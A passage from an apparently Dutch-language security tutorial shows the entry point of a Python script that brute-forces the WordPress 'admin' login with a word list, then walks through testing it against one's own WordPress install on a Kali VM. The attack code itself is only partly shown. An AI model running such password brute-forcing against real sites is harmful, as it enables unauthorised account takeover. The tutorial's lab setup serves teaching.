 
Tot slot om ons script effectief uit te voeren:

```python
if __name__ == '__main__':
    b = Bruter('admin', TARGET)
    words = get_words()
    b.run_bruteforce(words)
```

### De code in actie

Je zorgt voor een WordPress install op je Kali VM. Je zorgt dat ze draait. Je zorgt dat je admin gebruiker een wachtwoord heeft uit de lijst ;-) Je runt het script wp_brute_force.py.
